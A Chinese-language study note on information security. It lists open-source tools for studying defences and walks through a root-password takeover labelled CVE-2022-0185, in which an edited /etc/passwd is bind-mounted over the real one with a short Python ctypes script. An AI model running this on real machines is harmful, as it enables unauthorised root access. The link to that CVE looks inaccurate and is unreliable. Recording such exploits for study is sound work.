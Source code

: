 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
date: "2023-06-05T15:35"
weight: 1
---
```


# 概述

> 参考：
> 
> - [Wiki，Information_security](https://en.wikipedia.org/wiki/Information_security)

**Information security(信息安全，简称 infosec)** 是通过降低信息风险来保护信息的实践。

[Data secruity](https://en.wikipedia.org/wiki/Data_security)

[Network security](https://en.wikipedia.org/wiki/Network_security)

# 待总结

要研究态势感知或安全运营中心，可以采用 OSSIM

要研究入侵防御技术，可以采用 Snort 或 Security Onion

要研究防火墙技术，可以采用 pfSense 或 OPNsense

要研究 Web 应用防火墙（WAF ），可以采用 ModSecurity

要研究威胁情报技术，可以采用 MISP 或 OpenCTI

要研究漏洞扫描技术，可以采用 OpenVAS 或 W3AF

要研究堡垒机技术，可以采用 JumpServer

要研究蜜罐技术，可以采用 T-Pot 或 Hfish

# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root 
输入密码：password
```

# 信息安全历史

[B 站，俄罗斯黑客的激荡三十年](https://www.bilibili.com/video/BV1uu4y1X7FX?spm_id_from=333.1245.0.0)